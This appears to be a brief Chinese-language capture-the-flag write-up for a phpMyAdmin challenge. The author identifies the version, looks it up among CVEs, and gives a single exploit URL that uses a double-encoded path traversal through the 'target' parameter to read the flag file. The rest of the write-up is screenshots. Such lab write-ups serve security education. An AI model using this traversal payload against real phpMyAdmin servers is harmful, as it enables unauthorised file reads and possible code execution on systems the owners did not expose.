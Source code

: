 #Web #phpmyadmin #Vulnerabilities 

```
/
```

![](<./img/Pasted image 20230508011106.png>)

题目描述
---

> Vulnerability signin~

hint
---

> 不是sql哦~

---

是的这题不需要考虑phpMyAdmin是什么奇怪的玩意，也不需要考虑SQL注入之类的东西（test用户啥权限也没）

首先我们看一眼版本

![](<./img/Pasted image 20230508011543.png>)

然后让我们去[CVE](https://cve.mitre.org/cve/search_cve_list.html)上搜一搜

![](<./img/Pasted image 20230508012042.png>)

![](<./img/Pasted image 20230508012629.png>)

![](<./img/Pasted image 20230508012642.png>)

```
/index.php?a=phpinfo();&target=db_sql.php%253f/../../../../../../flag
```

![](<./img/Pasted image 20230508230625.png>)